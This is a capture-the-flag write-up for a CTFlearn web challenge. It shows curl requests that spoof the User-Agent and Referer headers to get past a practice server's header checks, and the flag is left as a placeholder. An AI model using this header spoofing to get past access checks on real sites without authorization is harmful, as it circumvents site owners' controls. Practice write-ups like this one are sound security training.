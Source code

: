# DON'T BUMP YOUR HEAD(ER)

LINK : https://ctflearn.com/problems/109

# My Approach
- Open http://165.227.106.113/header.php in browser
- Copied as curl 

```sh
$ curl 'http://165.227.106.113/header.php' -H 'Connection: keep-alive' -H 'Pragma: no-cache' -H 'Cache-Control: no-cache' -H 'Upgrade-Insecure-Requests: 1' -H 'User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/69.0.3497.100 Safari/537.36' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8' -H 'Accept-Encoding: gzip, deflate' -H 'Accept-Language: en-GB,en-US;q=0.9,en;q=0.8' --compressed

Sorry, it seems as if your user agent is not correct, in order to access this website. The one you supplied is: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/69.0.3497.100 Safari/537.36
<!-- Sup3rS3cr3tAg3nt  -->
```

- Then I removed User-Agent entirely, Still same error
- Next I tried User-Agent *, Still same error
- Oh, realised Sup3rS3cr3tAg3nt in Output. Let's try that 

```sh
$ curl 'http://165.227.106.113/header.php' -H 'Connection: keep-alive' -H 'Pragma: no-cache' -H 'Cache-Control: no-cache' -H 'Upgrade-Insecure-Requests: 1'  -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8'  -H 'Accept-Language: en-GB,en-US;q=0.9,en;q=0.8' -H 'User-Agent: Sup3rS3cr3tAg3nt'

Sorry, it seems as if you did not just come from the site, "awesomesauce.com".
<!-- Sup3rS3cr3tAg3nt  -->
```

- Now added Referer Header to awesomesauce.com and it's done.

```sh
$ curl 'http://165.227.106.113/header.php' -H 'Connection: keep-alive' -H 'Pragma: no-cache' -H 'Cache-Control: no-cache' -H 'Upgrade-Insecure-Requests: 1'  -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8'  -H 'Accept-Language: en-GB,en-US;q=0.9,en;q=0.8' -H 'User-Agent: Sup3rS3cr3tAg3nt' -H 'Referer: awesomesauce.com'

YOU WILL GET THE FLAG HERE
```